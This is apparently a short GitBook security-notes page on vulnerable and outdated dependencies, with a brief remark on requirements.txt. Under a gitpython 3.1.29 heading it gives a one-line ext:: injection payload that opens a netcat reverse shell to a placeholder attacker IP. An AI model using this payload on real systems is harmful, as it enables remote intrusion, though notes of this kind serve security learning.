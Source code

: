 ```yaml
---
description: >-
  Software packages ,libraries, or modules that an application relies on that
  have not been updated ,or contains vulnerabilities
cover: >-
  https://images.unsplash.com/photo-1707550132160-e545346ae88c?crop=entropy&cs=srgb&fm=jpg&ixid=M3wxOTcwMjR8MHwxfHJhbmRvbXx8fHx8fHx8fDE3MDkyNzMwMjJ8&ixlib=rb-4.0.3&q=85
coverY: 0
---
```


# ☢️ Vulnerable and Outdated Components

## <mark style="background-color:orange;">gitpython 3.1.29</mark>

<mark style="background-color:orange;">ext:sh -c /bin/nc% attackerip% 4242% -e % /bin/sh</mark> &#x20;

<figure><img src=".gitbook/assets/image (2).png" alt=""><figcaption></figcaption></figure>

## requirements.txt

List the necessary depensencies for the application to function properly

Need  to be installed in the application enviroment before starting or publishing the application

<figure><img src=".gitbook/assets/image (1).png" alt=""><figcaption></figcaption></figure>

&#x20;
